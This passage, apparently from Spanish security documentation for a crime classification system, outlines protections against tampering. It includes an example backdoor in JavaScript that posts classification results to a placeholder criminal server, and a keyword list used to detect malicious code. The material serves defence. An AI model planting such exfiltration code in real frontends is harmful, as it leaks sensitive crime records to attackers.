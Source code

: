 #### **4. Inyectar Backdoors en el Frontend**
```javascript
// En index.html del Clasificador insertar:
function enviarDatosAHacker() {
    const datosClasificacion = document.getElementById('results').innerText;
    
    fetch('http://servidor-criminal.com/robar-clasificaciones', {
        method: 'POST',
        body: JSON.stringify({
            clasificaciones: datosClasificacion,
            usuario: 'DDIC-SM',
            sistema: 'Clasificador de Delitos'
        })
    });
}
```

---

## ✅ **SOLUCIÓN IMPLEMENTADA: PROTECCIÓN MULTINIVEL**

### 🛡️ **PROTECCIONES ACTIVAS EN EL CLASIFICADOR**

#### **1. ✅ Verificación de Integridad SHA256**
- **Qué hace:** Calcula "huellas digitales" únicas de todos los archivos críticos
- **Protege contra:** Modificación maliciosa del código del Clasificador
- **Acción:** Bloquea ejecución si detecta cambios no autorizados

#### **2. ✅ Detección de Código Malicioso**
- **Qué hace:** Escanea automáticamente patrones sospechosos: `hack`, `malware`, `steal`, `backdoor`
- **Protege contra:** Inyección de código malicioso en el Clasificador
- **Acción:** Detiene el sistema y registra la violación

#### **3. ✅ Protección Frontend Anti-Tamper**
- **Qué hace:** JavaScript que detecta scripts maliciosos inyectados dinámicamente
- **Protege contra:** Modificación del interface del Clasificador para robar datos
- **Acción:** Bloquea automáticamente requests y scripts sospechosos

#### **4. ✅ Inicio Seguro Obligatorio**
- **Qué hace:** Verificaciones automáticas antes de iniciar el Clasificador
- **Protege contra:** Ejecución de versiones comprometidas
- **Acción:** Solo permite ejecución después de verificación exitosa

#### **5. ✅ Logging de Seguridad Completo**
- **Qué hace:** Registra todos los eventos de seguridad con timestamp
- **Protege contra:** Ataques silenciosos sin detección
- **Acción:** Crea evidencia forense de cualquier intento de hackeo

---
